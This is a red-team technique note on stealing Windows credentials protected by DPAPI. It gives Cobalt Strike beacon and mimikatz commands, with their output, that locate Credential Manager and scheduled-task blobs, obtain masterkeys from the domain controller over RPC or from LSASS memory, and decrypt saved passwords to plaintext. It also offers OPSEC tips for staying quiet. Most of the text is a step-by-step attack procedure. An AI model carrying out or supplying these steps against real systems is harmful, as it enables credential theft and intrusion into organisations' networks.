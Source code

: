 ```yaml
---
title: Data Protection API (DPAPI)
category: Red Team
order: 12
---
```


The Data Protection API (DPAPI) is a component built into Windows that provides a means for encrypting data blobs. It uses cryptographic kyes and allows both native Windows functionality and third-party applications to protect/unprotect data transparently to the user.

DPAPI is used by the Windows Credential Manager to sotre saved secrets such as RDP credential, and by third-party applications like Google Chrome.


# Credential Manager

The credential manager blobs are stored in user's `AppData` directory.

With `vaultcmd` tool we can list them.

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/srv-1
Identity: CORP\user
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

Or with mimikatz.

```
beacon> mimikatz vault::list
```

The masterkey with which the blobs have been encrypted are stored encryppted in the following path.

```
beacon> ls C:\Users\user\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```

> **Note**: Each user including system has their independent blob. Remember to list vaults with all the contexts.

## Decrypt the credentials

To decrypt the credentials we need to find the master encryption key.

Run mimikatz `dpapi` and provide the location to the blob on disk.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it. The masterkey information is stored in the following directory specifying the user SID.

```
beacon> ls C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1122

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-CORP
 24b      fil     02/21/2021 11:49:40   Preferred
```

It is possible to dump the masterkey from memory with `sekurlsa::dpapi` on a high integrity session, but this interacts with LSASS which is not ideal for OPSEC.

There are more silent ways such us using the RPC service exposed on the DC.

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'corp.local' will be the domain
[DC] 'dc.corp.local' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```
Once the `key` is obtained we can decyrpt the credential with `dpapi::cred`.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : CORP\user
  CredentialBlob : Passw0rd!
```

# Scheduled Task Credentials

Scheduled task can save credentials so they can run under the context of a user without them having to be logged on. If we have compromised a machine as a local admin, we can decrypt them in the same way as the credential manager.

The blobs are saved under `C:\Windows\Sytem32\config\systemprofile\AppData\Local\Microsoft\Credentials`.

```
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 10kb     fil     08/28/2022 02:42:24   DFBE70A7E5CC19A398EBF1B96859CE5D
 527b     fil     08/17/2022 04:55:28   F3190EBE0498B77B4A85ECBABCA19B6E
```

With `dpapi::cred` can tell us the GUID of the master key used to encrypt each one.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```

`sekurlsa::dpapi` to dump cached keys:

```
beacon> mimikatz !sekurlsa::dpapi

	 [00000000]
	 * GUID      :	{aaa23e6b-bba8-441d-923c-ec242d6690c3}
	 * Time      :	9/6/2022 12:14:38 PM
	 * MasterKey :	10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
	 * sha1(key) :	cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c
```

And finally decrypt it.

```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : CORP\user
  CredentialBlob : Passw0rd!
```